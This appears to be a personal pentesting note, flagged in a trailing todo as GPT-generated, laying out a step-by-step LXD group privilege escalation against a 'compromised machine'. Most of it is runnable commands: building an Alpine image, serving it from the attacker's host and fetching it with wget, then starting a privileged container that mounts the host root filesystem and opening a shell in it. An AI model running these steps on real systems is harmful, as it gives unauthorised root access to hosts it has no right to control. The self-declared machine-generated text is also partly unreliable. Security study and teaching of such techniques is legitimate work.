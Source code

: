 LXD (Linux Container Daemon) can be used for <mark style="background: #FF5582A6;">privilege escalation </mark>if a compromised user account is a member of the `lxd` or `lxc` group. This is possible because LXD operates as a root process and carries out actions for any user with write access to the LXD UNIX socket, often without attempting to match the privileges of the calling user [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/). 

Here is a step-by-step guide on how you can use LXD for privilege escalation on a compromised machine:

1. **Check if the compromised user is a member of the `lxd` or `lxc` group**: You can do this by examining the `/etc/group` file for the compromised user's name [Source 6](https://reboare.github.io/lxd/lxd-escape.html). 

```bash
cat /etc/group | grep "lxd\|lxc"
```

2. **Create an LXD image**: You need to create an LXD image that you can import into the compromised system. You can do this using the `lxd-alpine-builder` script available on GitHub [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/). 

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This script will create an Alpine Linux image for LXD.

3. **Transfer the image to the compromised machine**: You can use a simple HTTP server to host the image and then download it onto the compromised machine [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).

```bash
# On your local machine
python -m SimpleHTTPServer

# On the compromised machine
cd /tmp
wget http://your-ip-address:8000/alpine-image.tar.gz
```

4. **Import the image into LXD**: Once the image is on the compromised machine, you can import it into LXD [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).

```bash
lxc image import ./alpine-image.tar.gz --alias myimage
```

5. **Create and start a new container**: Create a new container using the imported image and start it [Source 7](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md).

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
```

6. **Execute commands inside the container**: With the container running, you can execute commands inside it. Since the container has access to the host's root filesystem, you can perform actions as the root user [Source 7](https://github.com/carlospolop/hacktricks/blob/master/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.md).

```bash
lxc exec ignite /bin/sh
```

Once inside the container, you can navigate to `/mnt/root` to access the host's filesystem. From here, you can perform actions as the root user, effectively escalating your privileges on the compromised machine [Source 0](https://www.hackingarticles.in/lxd-privilege-escalation/).
- #todo this is gpt generated -> make it more clean /git